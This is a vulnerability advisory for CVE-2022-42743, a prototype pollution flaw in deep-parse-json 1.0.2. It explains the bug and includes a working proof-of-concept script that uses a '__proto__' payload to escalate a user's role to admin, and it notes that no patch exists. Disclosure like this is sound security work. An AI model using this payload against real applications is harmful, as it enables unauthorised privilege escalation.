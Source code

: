 ```yaml
---
slug: advisories/buuren/
title: deep-parse-json 1.0.2 - Prototype Pollution
authors: Carlos Bello
writer: cbello
codename: buuren
product: deep-parse-json 1.0.2 - Prototype Pollution
date: 2022-10-19 15:00 COT
cveid: CVE-2022-42743
severity: 7.3
description: deep-parse-json 1.0.2     -    Prototype Pollution
keywords: Fluid Attacks, Security, Vulnerabilities, Deep Parse Json, Prototype Pollution
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | deep-parse-json 1.0.2 - Prototype Pollution                        |
| **Code name**         | [Buuren](https://en.wikipedia.org/wiki/Armin_van_Buuren)           |
| **Product**           | deep-parse-json                                                    |
| **Affected versions** | Version 1.0.2                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-19                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Prototype Pollution                                                                                                         |
| **Rule**              | [390. Prototype Pollution](https://docs.fluidattacks.com/criteria/vulnerabilities/390)                                      |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L                                                                                |
| **CVSSv3 Base Score** | 7.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-42743](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42743)                                             |

## Description

Version 1.0.2 of deep-parse-json allows an external attacker to edit
or add new properties to an object. This is possible because the
application does not correctly validate the incoming JSON keys, thus
allowing the `__proto__` property to be edited.

## Vulnerability

Prototype pollution is a vulnerability that affects JS. It occurs when
a third party manages to modify the `__proto__` of an object. JavaScript
first checks if such a method/attribute exists in the object. If so,
then it calls it. If not, it looks in the object's prototype. If the
method/attribute is also not in the object's prototype, then the
property is said to be undefined.

Therefore, if an attacker succeeds in injecting the `__proto__` property
into an object, he will succeed in injecting or editing its properties.

## Exploitation

### exploit.js

```js
const { deepParseJson } = require('deep-parse-json')

let admin = {name: "admin", role:"admin"};
let user  = {name: "user", role:"user"};

let normal_user_request    = JSON.parse('{"name":"user","role":"admin"}');
let malicious_user_request = JSON.parse('{"name":"user","__proto__":{"role":"admin"}}');

const create_user = (new_user) => {
    // A user cannot alter his role. This way we prevent privilege escalations.
    if(new_user?.role && new_user?.role.toLowerCase() === "admin") {
        throw "Unauthorized Action";
    }
    user = deepParseJson(new_user, user);
    console.log(user?.role);
}

try {
    create_user(normal_user_request);
} catch (error) {
    console.log(error);
}
finally {
    create_user(malicious_user_request);
}
```

## Evidence of exploitation

![Prototype-Pollution](https://user-images.githubusercontent.com/51862990/196779711-510dd9cf-35b6-413c-8498-b3dc6b283a42.png)

## Our security policy

We have reserved the CVE-2022-42743 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: deep-parse-json 1.0.2

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/sibu-github/deep-parse-json>

## Timeline

<time-lapse
  discovered="2022-10-06"
  contacted="2022-10-06"
  replied="2022-10-06"
  confirmed=""
  patched=""
  disclosure="2022-10-19">
</time-lapse>

